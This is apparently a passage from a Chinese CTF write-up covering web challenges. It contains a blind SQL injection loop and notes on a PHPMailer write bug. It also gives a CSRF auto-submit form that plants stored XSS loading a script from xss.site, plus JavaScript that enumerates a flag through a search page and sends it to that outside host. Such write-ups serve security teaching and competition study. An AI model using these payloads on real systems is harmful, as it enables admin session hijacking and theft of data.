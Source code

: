 ```
for i in string.printable:
        username = "'or 1=1 unionxa0select 2,'233','%s' order by 3    #"%i
        print username
        if step1(username, password)['username'] == 'admin':
            print last
            break
        last=i
```

注入出来后md5解密。第二个接口是phpmailer漏洞，结合hint根目录不可写，在upload目录下写入php，得到flag

**<br>**

**Web-onlymyself**

大概浏览网站，有注册，登陆，修改个人资料，记录note，搜索note，提交bug这几个功能。

然后挨着测试是否有功能缺陷。admin是系统自带的，所以猜测flag在admin用户哪里。可以利用xss进入管理员账号。然后发现有交互的功能只存在于提交bug那里。然后发现漏洞链接那里存在xss漏洞。而且xss漏洞进去那个页面存在注入。后来才知道是设计不完善，于是重新思考，猜测会模拟管理员去点击提交的那一个链接，可以利用javascript伪协议或者csrf漏洞+selfxss。选择的后者，在更改个人资料的时候发现并没有验证csrftoken,所以写了一个利用csrf的html网页

```
&lt;form id="ffrom" action="http://58.213.63.30:10003/checkProfile.php" method="POST" id="profile" enctype="multipart/form-data"&gt;
&lt;input type="file" id="image" name="image" data-filename-placement="inside" style="left: -179.99px; top: 19.3333px;"&gt;&lt;/a&gt;
&lt;input name="nick" id="nick" value="&lt;scriimgpt src=//xss.site/1.js&gt;/*"&gt;
&lt;input name="age" id="age" value ="2"&gt;
&lt;input name="address" id="address" value="&lt;/scripimgt&gt;"&gt;
&lt;input class="btn btn-primary" id="submit" name="submit" type="submit" value="Submit"&gt;&lt;/div&gt;
        &lt;/form&gt;
&lt;script&gt;submit.click()&lt;/script&gt;
```

只要让服务器的bot先访问csrf网页，在访问首页就可以了。这样能成功xss到管理员。但是cookie有httponly标记，所以不能直接用管理员账号登录。读取了note.php网页后发现里面并没有flag。然后就思考会不会是利用search.php枚举flag。然后写出js代码。

```
tab="_0123456789abcdefghijklmnopqrstuvwxyz`}`"
str=''
$.ajaxSettings.async=false
while(true)`{`
  for(i=0;i&lt;tab.length;i++)`{`
    //console.log(tab[i]);
    flag=false
    x=$.get('http://58.213.63.30:10003/search.php?keywords=zctf`{`'+str+''+tab[i]);
    if(x.status==404) flag=true;
    if(!flag) break;
  `}`
  str+=tab[i];
  console.log(str);
  if(tab[i]=='`}`') break;
`}`
location.href=’//xss.site’+str
```
